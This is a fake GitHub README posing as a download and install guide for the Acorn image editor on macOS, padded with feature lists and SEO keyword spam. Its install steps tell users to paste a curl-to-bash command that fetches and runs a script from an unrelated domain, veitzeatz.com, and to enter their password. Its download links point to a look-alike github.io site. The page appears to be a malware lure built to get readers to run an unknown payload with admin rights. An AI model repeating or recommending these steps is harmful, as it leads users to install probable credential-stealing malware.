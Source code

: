 # 🖼️ Acorn — Powerful Image Editor for macOS

**Acorn** is a lightweight yet powerful image editor designed exclusively for macOS. It offers intuitive tools for photo editing, vector drawing, and non-destructive filters, wrapped in a clean and responsive interface.

Acorn is perfect for creatives and professionals who need a fast, reliable, and affordable image editor optimized for Mac.

---

## ✅ Download Acorn for macOS  
[![Download Acorn](https://img.shields.io/badge/Download-Acorn-blueviolet)](https://acorn-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Acorn?

Acorn is a user-friendly image editor that combines powerful editing features with macOS-native performance. It supports layers, masks, curves, and blending modes, allowing detailed and creative control over your images without the complexity of heavyweight software.

---

## ✨ Features

- 🖌️ **Non-destructive filters and effects**  
- 🧩 Layer-based editing with blending modes and masks  
- ✏️ Vector drawing tools including shapes, paths, and text  
- 🔍 Pixel-accurate editing with zoom and guides  
- 🖥️ Full macOS integration and support for Retina displays  
- 🌙 Dark mode interface and Apple Silicon optimized  

---

## 💡 Why Use Acorn?

- ⚡ Fast and lightweight alternative to complex image editors  
- 🎨 Combines bitmap and vector tools in one app  
- 🛠️ Ideal for photo retouching, graphic design, and digital painting  
- 💻 Seamless macOS experience with native UI and performance  
- 💰 Affordable with a one-time purchase  

---

[![Download Acorn](https://img.shields.io/badge/Download-Acorn-blueviolet)](https://acorn-mac-download.github.io/.github)

---

## 🖼️ Preview

![Acorn Screenshot 1](https://s3.amazonaws.com/flyingmeat/acorn8/ssweb_export.jpeg)  
![Acorn Screenshot 2](https://s3.amazonaws.com/flyingmeat/acorn8/ssfilters.jpeg)

---

## 📌 Tags

acorn, acorns company, acorn cost, acorn in, acorns near me,  
acorns reddit, acorn savings, acorn trading, acorn website,  
acorn sales company, acorn securities, gold acorns, acorn for sale,  
acorn promotion, acorn management, acorns promotion, acorn business,  
acorn price, columbia acorn, acorn ltd, acorn com,  
acorn trustpilot, acorns ashton kutcher, ashton kutcher acorns,  
walter wemple cruttenden iii, acorn mac, acorn mac download

